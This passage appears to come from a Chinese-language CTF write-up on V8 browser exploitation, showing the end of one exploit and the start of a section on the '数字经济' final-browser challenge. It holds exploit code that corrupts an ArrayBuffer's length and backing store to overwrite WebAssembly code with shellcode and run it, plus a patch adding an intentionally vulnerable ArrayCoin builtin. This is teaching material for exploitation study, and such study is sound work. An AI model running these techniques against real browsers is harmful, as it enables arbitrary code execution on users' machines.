 ```

oob_arr[0x7] = p64(tmp0,0x1000); //修改ArrayBuffer的length
oob_arr[0x8] = p64(0,wasm_shellcode_addr_l); //backing_stroe
oob_arr[0x9] = p64(wasm_shellcode_addr_h,0);
oob_arr[0xa] = p64(0x2,0);


var adv = new DataView(arb_buf);
//替换wasm的shellcode
for (var i=0;i&lt;shellcode.length;i++) `{`
   adv.setUint32(i*4,shellcode[i],true);
`}`
//执行shellcode
func();
```



## 0x03 callback中的OOB

### <a class="reference-link" name="0x03.00%20%E6%95%B0%E5%AD%97%E7%BB%8F%E6%B5%8E-final-browser"></a>0x03.00 数字经济-final-browser

#### <a class="reference-link" name="patch%E5%88%86%E6%9E%90"></a>patch分析

```
diff --git a/src/builtins/builtins-array.cc b/src/builtins/builtins-array.cc
index e6ab965a7e..9e5eb73c34 100644
--- a/src/builtins/builtins-array.cc
+++ b/src/builtins/builtins-array.cc
@@ -362,6 +362,36 @@ V8_WARN_UNUSED_RESULT Object GenericArrayPush(Isolate* isolate,
 `}`
 `}`  // namespace

+// Vulnerability is here
+// You can't use this vulnerability in Debug Build :)
+BUILTIN(ArrayCoin) `{`
+  uint32_t len = args.length();
+  if (len != 3) `{`
+     return ReadOnlyRoots(isolate).undefined_value();
+  `}`
+  Handle&lt;JSReceiver&gt; receiver;
+  ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
+         isolate, receiver, Object::ToObject(isolate, args.receiver()));
+  Handle&lt;JSArray&gt; array = Handle&lt;JSArray&gt;::cast(receiver);
+  FixedDoubleArray elements = FixedDoubleArray::cast(array-&gt;elements());
+
+  Handle&lt;Object&gt; value;
+  Handle&lt;Object&gt; length;
+  ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
+             isolate, length, Object::ToNumber(isolate, args.at&lt;Object&gt;(1)));
+  ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
+             isolate, value, Object::ToNumber(isolate, args.at&lt;Object&gt;(2)));
+
+  uint32_t array_length = static_cast&lt;uint32_t&gt;(array-&gt;length().Number());
+  if(37 &lt; array_length)`{`
+    elements.set(37, value-&gt;Number());
+    return ReadOnlyRoots(isolate).undefined_value();  
+  `}`
+  else`{`
+    return ReadOnlyRoots(isolate).undefined_value();
+  `}`
```